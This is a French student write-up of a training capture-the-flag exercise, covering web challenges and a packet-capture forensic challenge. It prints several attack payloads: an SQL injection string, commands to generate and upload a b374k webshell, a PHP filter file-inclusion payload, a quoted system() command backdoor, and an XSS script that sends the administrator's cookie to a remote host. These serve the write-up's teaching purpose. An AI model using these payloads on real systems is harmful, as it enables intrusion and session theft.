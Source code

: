 

# SRS Capture The Flag
Dans le cadre de l'UV SRS à l'IMT Lille Douai, Advens nous a proposé de participé à un CTF (Capture The Flag) afin de nous former aux techniques de ethical hacking.
Ce document nous permettra d'expliquer les méthodes que nous avons employé pour résoudre les différents challenges de ce CTF. 


## Web

### Baby Web
Ce challenge commence sur une page d'authentification comprenant 2 champs : login/password. Afin de forcer le passage de cette page, nous avons utilisé une **injection SQL** en complétant l'un des champ avec le code suivant : `'OR 1=1'`.
> En effet, en supposant que la requête SQL executée du coté serveur est du type `SELECT * from admins WHERE login='$login' AND password='$password'`. Notre injection permettra d'avoir le code suivant exécuté du coté serveur et donc de forcer l'accès : `SELECT * from admins WHERE login=''OR 1=1'' AND password=whatever`.

Cela nous donne accès à une page d'upload de fichier sur le serveur. Afin de gagner un accès au serveur, nous allons injecter un shell via ce service d'upload. Nous utiliserons le webshell de  [b374k](https://github.com/b374k/b374k).
On génère un webshell grâce aux commandes suivantes : 
```
> git clone  https://github.com/b374k/b374k
> cd b374k
> php  -f  index.php  --  -o  shell.php  -p  password123
```
Il nous suffit donc du l'uploader sur le serveur pour avoir accès au serveur. Nous obtenons un shell avec les droits de l'application web. Ces droits nous permettent de mener nos investigations sur l'ensemble du serveur et notament dans le repertoire `/root` où nous trouverons le premier flag [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/babyWeb/babyWeb_4.PNG). 
```
> cat /root/flag.txt
advens{easy_baby_web}
```

### Pentester Adventures
Ce challenge nous amène sur un site bloqué par la NSA et donc non-indexé. L'indexation d'un site est géré par le fichier `robots.txt` qui est situé à la racine du site [doc](http://robots-txt.com/). Lors de la consultation de ce document, on voit que le site comprend 2 pages [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_1.PNG) : 
 - `/dict.txt` : une suite d'identifiants et de mots de passe au format texte
 - `/nsa-secure-scripts.php` : une page d'identification avec un couple login:mdp. Nous allons tenter d'utiliser le fichier `dict.txt` pour brute-forcer l'accès à cette page.

La page d'identification renvois une erreur *wrong login* lorsque le login ne correspond pas à un utilisateur connu. Nous pouvons donc supposer qu'en testant tous les identifiants, nous arrivrons à un message du type *wrong password*, et donc une taille de réponse différente.
Avec le logiciel Burp, nous allons intercepter une requête d'identification et faire varier uniquement le login en se servant du fichier `dict.txt`. On compare ensuite les tailles des réponses pour identifier le bon login [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_5.PNG). De la même manière, on peux identifier le mot de passe de la page pour arriver au coupe `qwertyui:security` [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_7.PNG). 

On accède enfin à une page qui liste 2 liens : une capture d'un ping local et un fichier de configuration php à l'adresse suivante `/nsa-secure-scripts.php?script=scripts/phpinfos.php`. En se referant à cette [documentation](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/), on injecte `php://filter/convert.base64-encode/resource=nsa-secure-scripts.php` pour inspecter le code source de la page [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_9.PNG). C'est ainsi qu'on remarque le bloc de code suivant : 
```
if(isset($_GET['cmd_shell_params'])){
	system($_GET['cmd_shell_params']);
}
```
Grâce à cette option, on peut réussir à ouvrir un shell sur le serveur cible. Ainsi, on fait une recherche sur les fichiers `*.txt` pour localiser le flag et l'afficher sur la page web [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_11.PNG).

### Cookie hacker
La page de ce challenge nous permet de poster des messages et donc potentiellement de tenter une attaque XSS. Nous allons tenter de voler un cookie administrateur (fichier `document.cookie`) pour pouvoir nous identifier sur la page d'administration. 
Cependant, le serveur étant en "maintenance", les messages d'injection XSS de type `<script>alert()</script>` ne sont pas envoyé par le serveur. Nous allons donc tenter d'injection un script permettant de rediriger le contenu du `document.cookie` vers un autre serveur : 
```
<script>
	document.location="https://remoteadresse" + document.cookie;
</script>
```
Grâce au site [Request Inspector](https://requestinspector.com/) nous allons pouvoir récupérer le resultat de notre script et donc récupérer le cookie administrateur. [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/cookieHacker/cookieHacker_2.PNG). Ensuite l'extension [Cookie Quick Manager](https://addons.mozilla.org/fr/firefox/addon/cookie-quick-manager/) nous permet d’éditer les cookies et d'injecter notre cookie volé. Une fois le cookie re-injecté, on obtient le flag du challenge.

## Forensic

### Simple HTTP
Cette épreuve nous met à disposition une capture de trames où 2 machines échanges des données. 
On suppose que l'une des trame doit contenir un mot de passe ou un flag. En filtrant les trames par protocole, il est facile de repérer un paquet `HTTP/POST`. En inspectant le contenu de cette trame, on trouve rapidement un fichier `flag.txt` encapsulé un paquet `MIME`.  On trouve donc le flag en clair dans cette partie de la trame [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/forensic/simpleHTTP/simpleHTTP_1.PNG).
